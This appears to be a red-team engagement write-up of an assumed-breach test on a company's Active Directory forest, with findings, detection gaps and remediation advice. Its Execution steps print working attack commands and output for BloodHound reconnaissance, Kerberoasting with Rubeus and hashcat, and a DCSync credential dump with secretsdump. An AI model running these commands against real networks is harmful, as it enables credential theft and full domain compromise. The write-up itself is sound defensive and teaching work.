


Operation Nightshade
Overview
Background. A logistics company with ~1,200 endpoints engaged me for an assumed-breach exercise: the red team started inside the corporate LAN with standard-user credentials, and the blue team had no prior knowledge of the operation schedule. The estate was a flat-ish AD forest — three domains, one forest root, and a legacy trust nobody had audited since 2019.
Target. Prove the blast radius of a single compromised workstation and provide detection engineering with a step-by-step logbook of every technique attempted — so the SOC can write signatures for the gaps, not just the successes.
The operation followed MITRE ATT&CK Enterprise tactics, with a purple-team debrief at the end of each exercise window so detections were written within days, not months.
The Challenge
The environment looked hardened on paper — EDR on every endpoint, LAPS deployed, admin tiering half-implemented. Three gaps made the exercise genuinely possible:
- Service accounts with SPNs. Eleven accounts had registered SPNs, and three of them held Domain Admin–equivalent rights — Kerberoastable with no gMSA in sight.
- Legacy NTLM trust. A 2019-era external trust with a partner forest still allowed NTLM cross-forest authentication, sidestepping the new Kerberos-only policy on paper.
- Telemetry blind spots. The EDR covered workstations well, but DC audit policy was writing only success events for 4662 — object-access failures were dropped, hiding exactly the reconnaissance the exercise was designed to surface.
The Execution
Methodology
The exercise mapped to MITRE ATT&CK: discovery → credential access → privilege escalation → lateral movement → domain dominance. Every technique was logged with host, timestamp and detection outcome, then re-walked with the blue team at each debrief window.
Step 1 — Internal discovery
From the standard-user workstation, LDAP and BloodHound collection mapped the attack graph without touching a single host port:
$ bloodhound-python -d corp.redacted -u jdoe -p 'Redacted!' \ -ns 10.10.10.10 -c All --zip # INFO: Found 1181 computers / 2140 users / 381 groups # INFO: Collecting trusts... found legacy trust CORP->PARTNER (NTLM) [+] 3 Domain Admin-equivalent SPN accounts identified [+] Shortest path: jdoe -> HELPDESK_GRP -> svc_backup (DA)
Step 2 — Kerberoasting
Requesting TGS tickets for the three high-value SPNs produced RC4-encrypted tickets crackable
offline. One dictionary run cracked svc_backup in under four
minutes:
$ Rubeus.exe kerberoast /outfile:tgs.txt /rc4opsec [*] Action: Request TGS tickets (RC4) [*] svc_backup : hash captured (RC4) $ hashcat -m 13100 tgs.txt /opt/wordlists/rockyou.txt svc_backup:Winter2024! (TPS cracker: 12.4 kH/s # time-to-crack: 3m 51s - DA-equivalent service account
Step 3 — DCSync (proof of objective)
With svc_backup DA rights, a DCSync pull against the forest root
proved complete compromise. The session was stopped at the proof — the KRBTGT hash was
never requested, documented and left demonstrated:
$ secretsdump.py corp.redacted/svc_backup@10.10.10.10 -just-dc-user administrator # Impacket v0.12.0 [*] Dumping Administrator... (RID 500) NTLM hash: 31d6cfe0d16ae931b73c59d7e0c089c0 (proof, redacted) # STOP: objective demonstrated - no KRBTGT dump, no persistence

Step 4 — Detection gap walk-through
The purple-team debrief re-ran each technique with audit logging enabled. The two biggest gaps: no rate-based 4769 alerting for Kerberoast bursts, and DC object-access failure events silently dropped — hiding both the recon and the BloodHound collection phases.

The Impact & Mitigation
Results. In ten exercise days the operation proved a complete forest-top compromise chain from a single standard user — 9 findings logged, three critical. More importantly, the purple-team logbook turned 7 detection gaps into working Sigma rules within the same month.
| ID | Finding | Vector | Severity |
|---|---|---|---|
| F-01 | Kerberoastable DA-equivalent service accounts | AD hygiene | Critical |
| F-02 | DC audit policy drops object-access failures | Detection gap | Critical |
| F-03 | Legacy NTLM trust bypasses Kerberos-only policy | Forest trust | High |
| F-04 | No rate-based alert on 4769 TGS bursts | Detection gap | High |
Recommendations
- gMSA everywhere — migrate the three SPN service accounts to group managed service accounts with 240+ character random secret.
- Tiered admin model, finished — the half-implemented tiering left helpdesk staff with local-admin on every workstation plus DA-group membership via nested group; flatten it.
- Fix DC audit policy — enable 4662 failure auditing and stream DC logs to the SIEM at minimum latency.
- Alert on Kerberoast signatures — rate-based 4769 RC4-request alerting, already validated against the exercise replay.
- Sunset the legacy trust — or at minimum restrict it to Kerberos with SID filtering enforced.
Two weeks after the debrief, the client re-ran the same chain internally as a blue-team drill: every step now triggered a detection, and the Kerberoasting path was dead at step two.